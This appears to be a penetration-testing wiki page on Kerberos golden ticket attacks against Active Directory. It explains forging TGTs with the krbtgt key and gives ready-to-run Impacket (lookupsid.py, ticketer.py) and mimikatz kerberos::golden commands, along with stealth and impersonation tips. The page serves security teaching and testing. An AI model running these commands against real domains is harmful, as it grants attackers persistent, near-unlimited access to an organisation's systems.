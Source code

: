 # Golden tickets

## Theory

The long-term key of the `krbtgt` account can be used to forge a special TGT (Ticket Granting Ticket) that can later be used with [Pass-the-ticket](../ptt.md) to access any resource within the AD domain. The `krbtgt`'s key is used to encrypt the PAC. In a Golden Ticket scenario, an attacker that has knowledge of the `krbtgt` long-term key, will usually forge a PAC indicating that the user belongs to privileged groups. This PAC will be embedded in a forged TGT. The TGT will be used to request Service Tickets than will then feature the PAC presented in the TGT, hence granting lots of access to the attacker.

## Practice

{% hint style="info" %}
When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.
{% endhint %}

In order to craft a golden ticket, testers need to find the `krbtgt`'s RC4 key (i.e. NT hash) or AES key (128 or 256 bits). In most cases, this can only be achieved with domain admin privileges through a [DCSync attack](../../credentials/dumping/dcsync.md). Because of this, golden tickets only allow lateral movement and not privilege escalation.

{% hint style="info" %}
Microsoft now uses AES 256 bits by default. Using this encryption algorithm (instead of giving the NThash) will be stealthier.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN -user-id $USERID -groups $GROUPID1,$GROUPID2,... randomuser
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used for this attack.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](../ptt.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

{% hint style="success" %}
For Golden and Silver tickets, it's important to remember that, by default, [ticketer](https://github.com/SecureAuthCorp/impacket/blob/a16198c3312d8cfe25b329907b16463ea3143519/examples/ticketer.py#L740-L741) and [mimikatz](https://github.com/gentilkiwi/mimikatz/wiki/module-\~-kerberos) forge tickets containing PACs that say the user belongs to some well-known administrators groups (i.e. group ids 513, 512, 520, 518, 519). There are scenarios where these groups are not enough (special machines where even Domain Admins don't have local admin rights).&#x20;

In these situations, testers can specify all the groups ids when creating the ticket. However, deny ACEs could actually prevent this from working. Encountering a Deny ACE preventing domain admins to log on could be an issue when having all groups ids in the ticket, including the domain admin group id. This solution can also be reall inconvenient in domains that have lots of groups.&#x20;

Another solution to this is to look for a specific user with appropriate rights to impersonate and use [GoldenCopy](https://github.com/Dramelac/GoldenCopy) to generate a command that allows to forge a ticket with specific values corresponding to the target user (sid, group ids, etc.). The values are gathered from a neo4j database.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Using GoldenCopy for specific user impersonation</p></figcaption></figure>

## References

{% embed url="https://en.hackndo.com/kerberos-silver-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=483" %}
